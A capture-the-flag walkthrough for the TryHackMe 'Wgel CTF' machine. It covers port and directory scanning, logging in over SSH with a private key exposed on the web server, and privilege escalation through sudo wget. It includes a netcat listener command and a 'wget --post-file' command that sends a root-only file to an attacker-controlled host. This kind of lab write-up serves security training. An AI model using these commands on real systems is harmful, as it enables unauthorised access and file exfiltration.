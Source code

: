 ```yaml
---
title: Wgel CTF
date: 2022-08-22 17:00:00 +500
categories: [THM, easy machines]
tags: []    # TAG names should always be lowercase
---
```




### User Flag

Let's start with a Nmap scan

```terminal
nmap -p- -sS --min-rate 10000 --open -vvv -n -Pn 10.10.148.177
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60
```

the webpage is an Apache default page after installation, so let's scan for directories with gobuster

```terminal
gobuster dir -u http://10.10.148.177/ -w /usr/share/dirb/wordlists/common.txt
```

meanwhile, I was checking the source code and looks like they've patched a vulnerability CVE-2016-4979, and we may have a potential username

```
 <!-- Jessie don't forget to udate the webiste -->
```

Gobuster scan ended:

```
/sitemap              (Status: 301) [Size: 316] [--> http://10.10.148.177/sitemap/]
```

and looks like this is the real site, so let's scan for directories again.

```terminal
gobuster dir -u http://10.10.148.177/sitemap -w /usr/share/dirb/wordlists/common.txt
```

```
/.ssh                 (Status: 301) [Size: 321] [--> http://10.10.148.177/sitemap/.ssh/]
/css                  (Status: 301) [Size: 320] [--> http://10.10.148.177/sitemap/css/]
/fonts                (Status: 301) [Size: 322] [--> http://10.10.148.177/sitemap/fonts/]
/images               (Status: 301) [Size: 323] [--> http://10.10.148.177/sitemap/images/]
/index.html           (Status: 200) [Size: 21080]
/js                   (Status: 301) [Size: 319] [--> http://10.10.148.177/sitemap/js/]
```

.ssh directory looks super strange, if we navigate into it, its the whole rsa private key!, so I copied it over to my pc and try to crack the passphrase with john, but it didn't have one, so I tried to connect to the ssh service trying jessie username.
(other directories doesn't seem to have anything useful)

```terminal
ssh -i hashb4john jessie@10.10.148.177
```

and it worked!

if we go through the users folders we will find the user flag

>

### Root Flag

Let's start with sudo -l to list what things we can run as sudo (if any).
And we have one wget, the first thing I do is head over to gtfobins and see if we have a way to escalate privileges, but no one worked for me, so i googled a way to escalate privileges with wget sudo permissions and found [this guide](https://vk9-sec.com/wget-privilege-escalation/) which use wget to display the /etc/shadow file, then overwrite it with its own password, but I could get wget to list me the shadow file. So I took the easy way and tried to display the content of the root flag, by logic I had the format of the flag if it was the same as the user flag it'll be root_flag.txt and it would be on the root directory.

You need to set up a listener on your machine first on port 80

```terminal
nc -lvnp 80
```

and then on the remote machine

```terminal
sudo /usr/bin/wget --post-file=/root/root_flag.txt [your IP]
```

and this will give us the root flag

>
